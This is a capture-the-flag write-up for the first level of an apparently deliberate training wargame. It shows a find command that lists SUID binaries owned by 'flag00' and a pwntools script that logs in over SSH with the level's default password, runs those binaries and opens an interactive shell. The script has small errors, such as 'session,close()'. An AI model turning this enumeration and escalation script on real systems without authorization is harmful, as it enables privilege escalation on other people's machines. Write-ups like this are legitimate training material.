 # Level00

#### Description

> This level requires you to _find_ a Set User ID program that will run as the “flag00” account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.
>
> Alternatively, look at the find man page.
>
> To access this level, log in as level00 with the password of level00.

#### Solution

We just to find SUID set binaries which will run as the 'flag00' account. We can simply find them via a find command:

```bash
find / -type f -perm -4000 -user flag00 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

Here we got 2 binaries, let's check both of them

* `/bin/.../flag00`

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

* `/rofs/bin/.../flag00`

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

By running any of the above binary, we got the flag00's account shell.

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level00', password='level00')

# Run find command to locate SUID binaries owned by user provided and stores all the result
find_command = "find / -type f -user flag00 -perm -u=s 2>/dev/null"
result = session.run(find_command)
binary_paths = result.recvall().decode().strip().split('\n')

# Check if any binaries were found or not
if not binary_paths or binary_paths == ['']:
    print("No SUID binaries found which were owned by user flag00.")
    session,close()
    exit(1)

# Execute each binary one by one and check if it is executable, if it is then execute that binary
for binary_path in binary_paths:
    if not binary_path.strip():
        continue

    print(f"Attempting to execute binary: {binary_path}")

    check_command = f"ls -l {binary_path}"
    check_result = session.run(check_command)
    check_output = check_result.recvall().decode().strip()

    if check_output and 'x' in check_output.split()[0]:
        try:
            terminal = session.process(binary_path)
            print(f"Successfully executed binary: {binary_path}")
            terminal.sendline('getflag')
            terminal.interactive()
            break
        except Exception as e:
            print(f"Failed to execute {binary_path}: {str(e)}")
    else:
        print(f"Binary {binary_path} is not executable or does not exist.")

session.close()
```

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

***
